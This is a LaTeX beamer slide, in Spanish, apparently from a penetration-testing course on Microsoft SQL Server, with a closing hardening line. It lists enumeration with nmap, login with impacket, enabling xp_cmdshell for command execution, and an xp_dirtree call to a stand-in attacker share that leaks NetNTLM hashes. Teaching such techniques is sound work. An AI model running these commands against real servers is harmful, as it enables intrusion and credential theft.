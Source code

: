 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\cmd}[1]{\texttt{#1}}
\begin{document}
\begin{frame}[allowframebreaks]{MSSQL}
\small
  \begin{itemize}
  \item Funcionalidad: Base de datos de Microsoft, omnipresente en entornos Windows/AD.
  \item Puertos: 1433/TCP (+ 1434/UDP browser)
  \item Vulnerabilidad: Credenciales débiles puedes acceder a toda la BBDD
  \item Explotación:
    \begin{itemize}
      \item \cmd{nmap -p1433 -{}-script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password <IP>}
      \item \href{https://github.com/fortra/impacket}{impacket-mssqlclient}: \cmd{impacket-mssqlclient usuario:pass@<IP> -windows-auth}
      \item \cmd{EXEC sp\_configure 'xp\_cmdshell',1; RECONFIGURE; EXEC xp\_cmdshell 'whoami' \# RCE}
      \item Robo de hash NetNTLM: EXEC xp\_dirtree \textbackslash{}\textbackslash{}atacante\textbackslash{}share ($\rightarrow$ relay/crack). Impersonation (EXECUTE AS) y linked servers para pivotar entre instancias.
  \end{itemize}
      \item Hardening: cuenta de servicio con mínimo privilegio, xp\_cmdshell deshabilitado, TLS forzado.
  \end{itemize}
\end{frame}

\end{document}
